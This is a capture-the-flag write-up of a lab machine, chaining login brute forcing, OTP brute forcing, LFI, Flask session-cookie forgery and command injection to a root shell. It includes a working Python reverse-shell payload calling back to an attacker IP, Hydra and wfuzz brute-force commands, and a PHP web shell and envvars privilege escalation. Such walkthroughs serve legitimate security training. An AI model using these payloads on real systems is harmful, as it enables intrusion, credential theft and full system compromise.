# Port Scanning
```bash
rustscan -a 10.48.189.98 -- -A

Open 10.48.189.98:7
Open 10.48.189.98:21
Open 10.48.189.98:22
Open 10.48.189.98:23
Open 10.48.189.98:80
Open 10.48.189.98:8080

PORT     STATE SERVICE    REASON         VERSION
7/tcp    open  echo       syn-ack ttl 62
21/tcp   open  ftp        syn-ack ttl 62 vsftpd 3.0.5
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 55:35:54:36:4f:b1:b9:7f:c3:cb:e4:1b:e4:a6:08:fe (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDhDu/YNzAAje5t44Lp56XaDZPw0qP4dSsn/OAhDaZfNdPqlhDLL1YSULOQHUWB7jmkU8ZU32Tgw/LPejrV1DBABa3eEjvJELRVbYHNQYPfCq9iwiYfHq6o8/9JaCnm6Auq5NiqC2eRWZEVT+YN0q0N1VFX+o8ik5wX1EubfwuxJ4UKUBhFbNh9M2zAPDn9BC47vPToJWQA0n5jNm5kyD2n+TaaKRNIsD7q6ldqq0TaYPMnbsS1bYheWg4Ftwtc4201HkYY+rc5jIW/BV93cgCensfKH9aYxxVkWSuP8FRC5DgxWSu/DNT3gm6+NNYFfrjJ7BVTUyvb7UVjBLi5MEQzlFBLD+evugSL3nw/tKDb8Rgk6A1f1C+A92x5+80kv1VNlIoA9S5OqDa2B1j2ZIdFWdIoSHG1JD3w4lZcO1TVwnowgwQY6PcNc6rGXjrSBe/69dM4dGOWV0wQ0Zzp8HVyUQAT7IW4JWT9CRRROuqI1Xtyt35z9oNMajg0ZvUIWi0=
|   256 67:30:d4:36:c6:de:3d:81:f0:61:0f:5f:1d:9f:ca:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIRzE789J4+QUbuu+6Oit9EXPKO/B0xmgf59XuzhKslKFuJkkreC1KcEV69CzNGM9k4YyZTQxDwrbV0aTPOaPNA=
|   256 02:4b:ef:d6:f2:6f:fa:2a:6c:10:31:27:fa:4f:9d:d2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOxvgEyPFCWSssJXySUmVWVqhG+nnoJ1RbQB6Ts3uEM3
23/tcp   open  tcpwrapped syn-ack ttl 62
80/tcp   open  http       syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
8080/tcp open  http       syn-ack ttl 62 Werkzeug httpd 2.2.2 (Python 3.8.10)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 5.4 - 5.15 (96%), Linux 4.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
```
# Flag 1
After visiting the page at port 80 I found it is under construction. So I visited the port 8080. And in the source view I have found a mail <br/>
<br/>
`devops@securesolacoders.no`
Then constructed probable mails.  <br/>
`anders@securesolacoders.no`, `admin@securesolacoders.no`
After that I constructed a passwordlist:
```bash
cewl http://securesolacoders.no:8080/ -w passowrds.txt
john -wordlist:passowrds.txt -rules:jumbo -stdout > pass.txt
```
Using the user list and password list I brute forced the login page.
```bash
hydra -L user.txt -P pass.txt securesolacoders.no -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error" -t 48
```
The valid credential is `anders@securesolacoders.no:securesolacoders2022`
Using the credential I logged in and get the first flag. <br/>

# Flag 2
I that page there was also a 4 digit that I needed to bypass via brute forcing. And got the 2nd flag. 
```bash
# Generate wordlist
seq 1000 9999 > otp.txt
# Bruteforce with wfuzz 
wfuzz -w otp.txt --hl 77 -d "sms=FUZZ" -b session=eyJ1c2VybmFtZSI6ImFuZGVycyJ9.almfaA.rUxH3dvXCnQztiPzh_v383aMcg8 securesolacoders.no:8080/sms
```
# Flag 3
In the `/internal` page the `news` parameter is vulnerable to LFI. <br/>
 <br/>
So I first visited `../../proc/self/stat` to get the PID. And then visited `../../proc/PID/cmdline` to know the location of `app.py`. <br/>
 <br/>
 <br/>
 <br/>
There was the 3rd flag. <br/>
# Flag 4
Analyzing the code I have found that to be admin I need admin cookie. so I generated the admin cookie in the following way. 
```bash
# 1. Decode a session cookie you already hold (from your browser after visiting the site)
flask-unsign --decode --cookie 'eyJ...'

# 2. Brute-force the key — but the built-in wordlist won't contain "secret_key_NNNNNN",
#    so you generate the candidate list yourself:
seq 100000 999999 | sed 's/^/secret_key_/' > keys.txt
flask-unsign --unsign --cookie 'eyJ...' --wordlist keys.txt --no-literal-eval

# 3. Once found, forge a new cookie
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret_key_123456'
```
 <br/>
 <br/>
 <br/>
Replacing the user cookie with the admin cookie I became admin. And got the flag. <br/>
 <br/>
# Flag 5
Analyzing the code I have found there is a debug parameter on admin page, that execute commands internally so I test it with `sleep 5` and it give me response after 5 seconds. <br/>
 <br/>
So I crafted a payload and get a reverse shell as devops and got flag. <br/>
```bash
curl -X POST http://securesolacoders.no:8080/admin \  
  -b "session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.almqlg.6knHK-ajIxZVLAJWuHNM2SIAyO0" \
  --data-raw "debug=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.168.41\",4545));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])'"
```
 <br/>
# Flag 6
Checking the process that one is running on port 80 as anders.  <br/>
 <br/>
So I crafted a reverse shell and uploaded it on the `/var/www/html` <br/> 
 <br/>
And visiting the /shell.php got the shell. <br/>
 <br/>
# Flag 7
Running sudo -l found the following permission. <br/>
 <br/>
In /etc/apache2/envvars is writable. <br/>
 <br/>
Just write a reverse shell and restart the service and be ROOT! <br/>
 <br/>
 <br/>
